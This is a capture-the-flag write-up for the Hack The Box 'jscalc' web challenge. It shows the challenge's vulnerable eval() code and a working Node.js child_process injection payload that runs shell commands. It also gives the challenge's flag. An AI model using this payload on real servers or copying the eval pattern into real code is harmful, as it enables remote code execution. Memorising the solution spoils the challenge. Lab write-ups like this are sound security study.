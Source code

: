 # Jscalc
jscalc is an easy web challenge on hack the box focusing on code injection. The challenge description mentions that you can do "inkjet trajectory calculations" using a JavaScript calculator.
![Website](website.png)

## calculatorHelper.js

Looking at the `challenge/helpers/calculatorHelper.js` file, we see that the calculator uses the JavaScript `eval()` function which is vulnerable to code injection.

```js
module.exports = {
    calculate(formula) {
        try {
            return eval(`(function() { return ${ formula } ;}())`);

        } catch (e) {
            if (e instanceof SyntaxError) {
                return 'Something went wrong!';
            }
        }
    }
}
```

## Getting a shell

We can inject JavaScript into calculator's text box to get a Linux shell. `require('child_process')` spawns a subprocess, the `execSync('linux cmd')` command runs a linux command, and the `toString()` allows us to see the output of our command.

```javascript
require('child_process').execSync('linux cmd').toString()
```

For example, we run the linux `whoami` command find that we are `root`.
![Our Shell](shell.png)

## Locating the Flag

We search all of our files for a file named `flag.txt` using the linux command `find / -name flag.txt`.
![Locating the Flag](location.png)

## Flag
> HTB{c4lcul4t3d_my_w4y_thr0ugh_rc3}

We view the content of the `flag.txt` file using the linux command `cat /flag.txt`.
![Flag](flag.png)
